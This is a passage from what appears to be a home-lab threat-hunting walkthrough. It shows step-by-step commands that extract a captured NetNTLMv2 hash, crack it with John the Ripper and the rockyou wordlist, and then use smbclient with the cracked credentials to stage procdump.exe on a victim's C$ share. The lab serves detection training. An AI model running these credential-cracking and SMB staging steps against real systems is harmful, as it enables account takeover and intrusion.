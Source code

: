 - The SQL query retrieves the fullhash field from entries where the username contains victim01.

- The LIKE '%victim01%' clause allows for any characters before or after the string victim01, ensuring partial matches are included.

**To confirm the hash was saved:**

To verify that the hash was successfully extracted and saved in a file, run:

```
cat ~/victim01_hash.txt
```

### Phase 4 Crack the Password Using John

**Steps:**
1. In the Kali Attacker VM run the following command:
```
john ~/victim01_hash.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt
```

Expected cracked result:
[Kali Attacker cracked result](/SOC_Escalation_Automated_Response/img/cracked_result.png)

2. Show the cracked credentials run the following command:
```
john --show --format=netntlmv2 ~/victim01_hash.txt
```

Example of Result:

```
victim01:Lab@2025!User01:THREATHUNT:5B74DC1ABC8180A001000000000000000000000000000000000000900200063006900660073002F003100390032002E003100360038002E0031002E0032000000000000000000

1 password hash cracked, 0 left
```

## Step 3 Execute the Attack

### Upload Procdump to Victim (via SMB)
**Objective:** Use smbclient (command-line tool on Linux used to interact with Windows SMB) to upload procdump.exe to the victim machine, mimicking how an attacker might stage a malicious tool.

**Steps:**
1. Open the Kali Attacker VM
2. Ensure the binary exists:
```
ls /root/procdump.exe
```

3. Connect to the victim machine’s C$ share:
```
smbclient //192.168.3.2/C$ -U threathunt\\victim01
```

4. When prompted, enter the password:
```
password123
```
